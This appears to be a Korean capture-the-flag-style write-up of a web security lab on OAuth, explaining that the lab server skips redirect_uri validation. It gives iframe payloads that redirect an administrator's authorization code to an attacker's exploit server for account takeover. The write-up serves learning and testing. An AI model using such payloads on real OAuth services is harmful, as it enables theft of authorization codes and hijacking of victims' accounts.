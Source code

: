 


## 공격 방법 검토 
- 이 랩 서버의 취약점은 인가코드만으로 로그인이 가능하다는 점, 그리고 OAuth서버가 redirect_uri를 체크하지 않는다는 점이다. 
- 관리자의 인가 코드만 얻으면 관리자로 로그인할 수 있을 것이다. 
- 그리고  OAuth서버가 redirect_uri를 체크하지 않으므로 redirect_uri를 exploit서버로 변경한 OAuth인가요청을 발생시키는 iframe을 쓰면 될 것 같다. 
- 다음과 같다. 

```html
<iframe src="https://{OAuth인가서버URL}/auth?client_id=bdww3ggebwzoucdafct1n&redirect_uri={exploit서버URL}&response_type=code&scope=openid%20profile%20email"></iframe>
```
- 관리자가 이 iframe이 포함된 페이지를 열면 OAuth서버에 로그인 요청이 보내지게 될 것이다. (GET /auth?client_id=xxxxx&redirect_uri=xxxx)
- 관리자가 로그인을 수행하면, OAuth인가서버는 인가코드(code)를 발행하여 exploit서버로 리다이렉트 시킬 것이다.  
- exploit서버의 접근로그를 보면 code값을 확인할 수 있을 것이다. (URL에 code가 포함되므로)

## explit 서버 구성
다음과 같이 구성하였다. client_id값은 문제 세션마다 상이하다. 적절하게 변경한다. 그리고 Deliver exploit to victim을 클릭한다. 

```html 
<iframe src="https://oauth-0a1a00ec037741f383d50d69023f00bf.oauth-server.net/auth?client_id=bdww3ggebwzoucdafct1n&redirect_uri=https://exploit-0a24008c031941c983d00e8801fd0096.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

![exploit 서버](/images/burp-academy-oauth-3-2.png)
